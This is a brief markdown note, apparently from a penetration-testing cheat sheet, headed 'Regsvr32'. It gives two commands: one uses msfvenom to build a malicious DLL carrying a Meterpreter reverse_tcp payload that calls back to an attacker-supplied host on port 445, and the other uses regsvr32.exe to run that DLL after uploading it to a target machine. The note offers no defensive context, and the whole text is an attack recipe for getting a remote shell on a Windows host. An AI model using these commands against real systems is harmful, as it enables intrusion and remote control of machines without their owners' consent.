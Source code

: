 # Regsvr32

### 1) Create a malicious .dll file

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=445 -f dll -a x86 > Shell.dll 

### 2) Upload the file to target machine, then execute

    regsvr32.exe c:\windows\temp\shell.dll
